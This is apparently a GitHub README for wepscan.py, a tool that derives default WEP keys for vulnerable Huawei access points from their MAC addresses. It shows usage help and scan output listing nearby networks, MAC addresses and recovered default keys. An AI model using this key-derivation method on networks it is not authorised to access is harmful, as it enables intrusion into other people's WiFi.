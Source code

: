 # wepscan.py

[![Join the chat at https://gitter.im/ksaver/wepscan](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/ksaver/wepscan?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
Scan WiFi networks and show up default WEP keys for vulnerable Huawei access points.

##Usage:

###View arguments:
```bash
$ ./wepscan.py -h
usage: wepscan.py [-h] [-m MACADDRESS] [-i INTERFACE]

optional arguments:
  -h, --help            show this help message and exit
  -m MACADDRESS, --mac-address MACADDRESS
                        Mac address to wep key (formerly mac2wep).
  -i INTERFACE, --interface INTERFACE
                        WiFi interface to perform scanning.
```

###Get the default WEP key for a single MAC address:
```bash
$ ./wepscan.py -m 5C:4C:A9:30:FF:4C 
[+] SUFFIX: c5eb, DEFAULT WEP KEY: 6434386463
```

###Scan WiFi networks with normal user priviledges:
```bash
$ ./wepscan.py -i wlan0
 + -- + ------------------ + ------------------ + ------ + ------ + ------------ +
 |    | NETWORK            | ADDRESS            | SIGNAL | SUFFIX | DEFAULT KEY  |
 + -- + ------------------ + ------------------ + ------ + ------ + ------------ +
 |  1 | SKYNET             | 00:11:22:33:AA:FF  | 24/70  |        |              |
 + -- + ------------------ + ------------------ + ------ + ------ + ------------ +
```

###Scan WiFi networks with sudo or root priviledges:
```bash
$ sudo ./wepscan.py -i wlan0
[...]
 + --- + ------------------ + ------------------ + -------- + ------ + ------------ +
 |     | NETWORK            | ADDRESS            | QUALITY  | SUFFIX | DEFAULT KEY  |
 + --- + ------------------ + ------------------ + -------- + ------ + ------------ +
 |   1 | INFINITUMc5eb      | 5C:4C:A9:30:FF:4C  | 25/70    | c5eb   | 6434386463   |
 |   2 | INFINITUM2beb      | 64:16:F0:D0:3C:C0  | 17/70    | 2beb   | 3663383065   |
 |   3 | INFINITUM95da      | 00:25:68:23:28:0C  | 21/70    | 95da   | 6431346462   |
 |   4 | AXTEL XTREMO-33DD  | 00:02:71:35:33:DE  | 25/70    |        |              |
 |   5 | AXTEL-XTREMO-9572  | 14:D6:4D:E4:95:72  | 19/70    |        |              |
 |   6 | ARRIS-2942         | 20:73:55:49:29:40  | 21/70    |        |              |
 |   7 | Huawei-HG8245H-FC2 | AC:85:3D:FA:16:0C  | 21/70    |        |              |
 |   8 | Huawei-HG8245H-042 | 04:F9:38:36:47:14  | 19/70    |        |              |
 |   9 | INFINITUM81672B    | A4:B1:E9:81:67:2B  | 19/70    |        |              |
 |  10 | INFINITUME75B0E    | A4:B1:E9:E7:5B:0E  | 19/70    |        |              |
 |  11 | ARRIS-BC72         | CC:A4:62:A3:BC:70  | 25/70    |        |              |
[...]
```
